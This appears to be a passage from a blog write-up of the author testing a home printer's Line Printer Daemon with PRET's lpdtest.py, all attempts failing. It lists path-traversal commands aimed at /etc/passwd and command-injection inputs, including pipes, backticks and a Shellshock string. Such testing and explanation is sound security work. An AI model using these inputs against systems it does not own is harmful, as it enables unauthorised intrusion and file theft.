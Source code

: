 
### A PRET test script to the rescue?

So PRET doesn't work for my home printer as seen above.
Interestingly I found that there is a script "hidden" within the PRET source folder called "lpdtest.py"
It can test for known, but older (like really older) vulnerabilities within the Line Printer Daemon, listed [here](http://insecure.org/sploits/lpd.protocol.problems.html).
This involves some basic tests:

#### 'get' Test

Trying to get (aka print) a file from printer's file system.

  $ lpdtest.py printer get /etc/passwd
  $ lpdtest.py printer get ../../../etc/passwd
  # etc...

#### 'in' Test

This test is for fuzzing around with user input (hostname,username, jobname, filenames, etc.).
This might be useful to test for interpretation of shell commands...

    # Test for environment variables
    $ lpdtest.py printer in '$UID'

    # Test for pipes and redirects
    $ lpdtest.py printer in '| pwd'
    $ lpdtest.py printer in '>> /etc/passwd'

    # Test for backticks
    $ lpdtest.py printer in '`ls`'

    # Test for [shellshock (CVE-2014-6271)](http://seclists.org/oss-sec/2014/q3/650)
    $ lpdtest.py printer in '() {:;}; /bin/ping -c1 1.2.3.4'



As expected these attacks were already fixed.
My printer spit out a few pages with lines like

  "If you can read this lpdtest.py XYZ failed!"

So the result here some wasted paper and ink..

------------------------------------------------------------------------------------------------------------


# Summary
## Why Printer Exploitation?
